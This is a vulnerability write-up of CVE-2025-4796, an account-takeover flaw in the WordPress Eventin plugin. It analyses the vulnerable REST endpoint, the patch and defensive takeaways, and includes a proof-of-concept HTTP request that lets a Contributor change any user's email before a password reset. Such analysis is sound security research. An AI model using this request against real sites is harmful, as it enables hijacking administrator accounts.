

# CVE-2025-4796 Analysis & POC


<!--more-->

## CVE & Basic Info

The **Eventin** plugin for WordPress is vulnerable to **privilege escalation** via **account takeover** in all versions **up to and including 4.0.34**. The root cause is that the plugin **does not properly verify the identity or authorization of the user** before updating sensitive information such as **email** in the function **`Eventin\Speaker\Api\SpeakerController::update_item`**. This allows an **authenticated attacker with Contributor privileges or higher** to **change the email address of any user**, including **administrators**, and then **reset the password** to gain full control of the account.

* **CVE ID**: [CVE-2025-4796](https://www.cve.org/CVERecord?id=CVE-2025-4796)
* **Vulnerability Type**: Privilege Escalation
* **Affected Versions**: 4.0.34
* **Patched Versions**: 4.0.35
* **CVSS severity**: Medium (8.8)
* **Required Privilege**: Contributor
* **Product**: [WordPress Eventin Plugin](https://wordpress.org/plugins/wp-event-solution/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version – Eventin**

  * `4.0.34` – **vulnerable**
  * `4.0.35` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Analysis

The plugin registers an API as follows:

```php {title="SpeakerController.php v4.0.34" data-open=true hl_lines=[13,14]}
register_rest_route(
    $this->namespace, // 'eventin/v2'
    '/' . $this->rest_base . '/(?P<id>[\d]+)', // 'speakers'
    array(
        'args' => array(
            'id' => array(
                'description' => __( 'Unique identifier for the post.', 'eventin' ),
                'type'        => 'integer',
            ),
        ),
        array(
            'methods'             => WP_REST_Server::EDITABLE, // POST, PUT, PATCH
            'callback'            => array( $this, 'update_item' ),
            'permission_callback' => array( $this, 'update_item_permissions_check' ),
            'args'                => $this->get_collection_params(),
        ),
        ...
    ),
);
```

With the above configuration:

* `$this->namespace` = **`eventin/v2`**
* `$this->rest_base` = **`speakers`**
* `(?P<id>[\d]+)` = **numeric ID parameter**

The full API endpoint has the following format:

```
/wp-json/eventin/v2/speakers/{id}
```

When a request reaches this endpoint with a valid method, the callback `update_item` is executed, but it must first pass the permission check function `update_item_permissions_check`.

```php
public function update_item_permissions_check( $request ) {
    return current_user_can( 'etn_manage_organizer' )
                || current_user_can( 'etn_manage_event' );
}
```

This function allows the request to proceed (`return true`) if the current user has one of the following capabilities: `etn_manage_organizer` or `etn_manage_event`.

When searching for the keyword `etn_manage_organizer`:


It can be seen that the **Contributor** role is also granted these two capabilities.

⇒ This endpoint is accessible to users with the **Contributor** role or higher.

The function `update_item` is then invoked:

```php {title="SpeakerController.php v4.0.34" data-open=true hl_lines=[2,12,29]}
public function update_item( $request ) {
    $data = $this->prepare_item_for_database( $request );

    if ( is_wp_error( $data ) ) {
        return $data;
    }

    $speaker = new User_Model( $request['id'] );
    ...
    $updated = $speaker->update( $data );
    ...
}
```

This function calls **`prepare_item_for_database()`** to perform the necessary steps to **prepare data before creating or updating records**.

```php {title="SpeakerController.php v4.0.34" data-open=true hl_lines=[3,10,58]}
protected function prepare_item_for_database( $request ) {
    $prepared_data = [];
    $input_data    = json_decode( $request->get_body(), true );

    if ( ! empty( $input_data['id'] ) ) {
        $prepared_data['id'] = intval( $input_data['id'] );
    }

    if ( ! empty( $input_data['name'] ) ) {
        $prepared_data['etn_speaker_title'] = sanitize_text_field( $input_data['name'] );
        $prepared_data['display_name']      = sanitize_text_field( $input_data['name'] );
    }
    

    if ( ! empty( $input_data['email'] ) ) {
        $prepared_data['etn_speaker_website_email'] = sanitize_text_field( $input_data['email'] );
        $prepared_data['user_login']                = sanitize_email( $input_data['email'] );
    }


    if ( ! empty( $input_data['social'] ) ) {
        $prepared_data['etn_speaker_social'] = $input_data['social'] ;
    }


    if ( ! empty( $input_data['category'] ) && is_array( $input_data['category'] ) ) {
        $allowed_categories = ['speaker', 'organizer'];
        $filtered_categories = array_intersect( $input_data['category'], $allowed_categories );
    
        if ( ! empty( $filtered_categories ) ) {
            $prepared_data['etn_speaker_category'] = $filtered_categories;
        } else {
            unset( $prepared_data['etn_speaker_category'] ); // Or you can leave it out entirely
        }
    }       
    
    if ( ! empty( $input_data['speaker_group'] ) ) {
        $prepared_data['etn_speaker_group'] =  $input_data['speaker_group'] ? json_encode($input_data['speaker_group']) : json_encode([]);
    }        
    
        
    //non mandatory field
    $prepared_data['date']                      =  $input_data['date'] ? $input_data['date'] : date("Y-m-d H:i:s");
    $prepared_data['etn_speaker_designation']   = ! empty( $input_data['designation'] ) ? sanitize_text_field( $input_data['designation'] ) : '';
    $prepared_data['etn_company_name']          = ! empty( $input_data['company_name'] ) ? sanitize_text_field( $input_data['company_name'] ) : '';
    $prepared_data['etn_speaker_url']           = ! empty( $input_data['company_url'] ) ? sanitize_url( $input_data['company_url'] ) : '';
    $prepared_data['etn_speaker_summery']       = ! empty( $input_data['summary'] ) ? wp_kses_post( $input_data['summary'] ) : '';
    $prepared_data['image']                     = ! empty( $input_data['image'] ) ? sanitize_url( $input_data['image'] ) : '';
    $prepared_data['image_id']                  = ! empty( $input_data['image_id'] ) ? intval( $input_data['image_id'] ) : attachment_url_to_postid( $input_data['image'] );
    $prepared_data['etn_speaker_company_logo']  = ! empty( $input_data['company_logo'] ) ? sanitize_url( $input_data['company_logo'] ) : '';
    $prepared_data['etn_company_logo_id']       = ! empty( $input_data['company_logo_id'] ) ? intval( $input_data['company_logo_id'] ): attachment_url_to_postid( $input_data['company_logo'] );


    if ( isset( $input_data['hide_user'] ) ) {
        $prepared_data['hide_user'] = $input_data['hide_user'];
    }
    
    return $prepared_data;
}
```

The **`prepare_item_for_database()`** function **decodes JSON from the request body, sanitizes and normalizes the data, maps required fields into the internal structure, and returns an array of prepared data for creating or updating a speaker in the database**.

Next, the `update_item` function initializes the speaker object using `$request['id']` and calls `$speaker->update($data)` to write the normalized data into the database and update the speaker information.

```php {title="user-model.php v4.0.34" data-open=true hl_lines=[2,9,13]}
public function update( $args = [] ) {
    $user = get_userdata($this->id);
    ...
    $email = !empty($args['etn_speaker_website_email']) ? $args['etn_speaker_website_email'] : '';

    $user_data = $user->to_array();
    ...
    if ( $email ) {
        $user_data['user_email'] = $email;
    }

    ...
    $user_id = wp_update_user( $user_data );

    ...
    return $user_id;
}
```

The **`update()`** function retrieves the user information based on the **ID supplied from the request**, converts the user object into an array, then **overwrites the `user_email` field if a new value exists**, and finally calls **`wp_update_user()`** to update the user data directly in the system.

Because **both the ID and the email are fully controllable from the request**, the entire update flow can be abused by an attacker to **change the email address of any user**. Once the victim’s email (e.g., an administrator account) is changed to an attacker-controlled email, the attacker can simply use the **password reset** function to **take over the account (Account Takeover)**, which leads to **Privilege Escalation**.

The patch in version `v4.0.35` introduces the following additional validations in the `update_item` function:

```php {title="SpeakerController.php v4.0.34" data-open=true hl_lines=[]}
$target_user_id = (int) $request->get_param('id');
$target_user    = get_userdata($target_user_id);

// Validate that the user exists
if ( ! $target_user ) {
    return new WP_Error('user_not_found', 'User does not exist', ['status' => 404]);
}

// Check permission to edit the user
if ( ! current_user_can( 'edit_user', $target_user_id ) ) {
    return new WP_Error('forbidden', 'forbidden', ['status' => 403]);
}

// Only allow editing speaker / organizer accounts
if (
    ! in_array('etn-speaker', (array) $target_user->roles, true) &&
    ! in_array('etn-organizer', (array) $target_user->roles, true)
) {
    return new WP_Error('forbidden', 'forbidden', ['status' => 403]);
}

// Block updates to sensitive roles
if (
    in_array('administrator', (array) $target_user->roles, true) ||
    in_array('editor', (array) $target_user->roles, true) ||
    in_array('author', (array) $target_user->roles, true) ||
    in_array('contributor', (array) $target_user->roles, true) ||
    in_array('subscriber', (array) $target_user->roles, true) ||
    in_array('etn-customer', (array) $target_user->roles, true)
) {
    return new WP_Error('forbidden', 'forbidden', ['status' => 403]);
}
```

These checks ensure that **only valid users are allowed to update speaker/organizer accounts**, preventing **unauthorized email modification and account takeover**.

## Flow



## Proof of Concept (PoC)

1. Log in using a **Contributor** account.

2. Update a speaker at:
   `http://localhost/wp-admin/admin.php?page=eventin#/speakers/edit/{id}`.


3. Intercept the request using **BurpSuite** and resend it with an **arbitrary user ID** and an **attacker-controlled email address**.

```http
POST /wp-json/eventin/v2/speakers/44 HTTP/1.1
Host: localhost
X-WP-Nonce: valid_nonce
Cookie: contributor_cookie

{
  "summary": "<p>asfsfas</p>",
  "social": [
    {}
  ],
  "name": "abc",
  "email": "hacker1@gmail.com",
  "category": [
    "speaker"
  ],
  "speaker_group": [
    33
  ],
  "designation": "rewrew",
  "company_name": "rewrew",
  "date": null
}
```


4. Use the **reset password** function with the modified email address.

5. Log in using the newly compromised account.

## Conclusion

The vulnerability CVE-2025-4796 in **Eventin ≤ 4.0.34** originates from **insufficient authorization control when editing users** in the `update_item` API. This endpoint allows users with the **Contributor** role to operate on **arbitrary user IDs** and directly update the **email field**, enabling **account takeover through the password reset mechanism**. The lack of binding between the edited target and the actual permissions of the API caller enables **Privilege Escalation** and **Account Takeover**.

Version **4.0.35** mitigates this issue by adding user existence validation, enforcing the `edit_user` capability, restricting valid roles, and blocking updates to sensitive roles, thereby eliminating unauthorized email modification.

## Key Takeaways

* Do not rely solely on **generic capabilities** for sensitive endpoints; always enforce **object-level authorization**.
* All sensitive parameters from requests, such as **user ID, email, and role**, must be **strictly validated and tightly bound** before being written to the database.
* Allowing updates to a user’s **email address** can indirectly lead to **Account Takeover** via the password reset mechanism.
* WordPress REST APIs should combine **permission_callback**, **current_user_can('edit_user', $target_id)**, and **role validation** to prevent privilege escalation.
* Always compare the **diff between vulnerable and patched versions** to accurately identify the root cause and impact scope of a vulnerability.

## References

[Privilege Escalation](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress Eventin Plugin ≤ 4.0.34 is vulnerable to a medium priority Privilege Escalation](https://patchstack.com/database/wordpress/plugin/wp-event-solution/vulnerability/wordpress-eventin-plugin-4-0-34-authenticated-contributor-privilege-escalation-via-user-email-change-account-takeover-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2026-01-12-cve-2025-4796/  

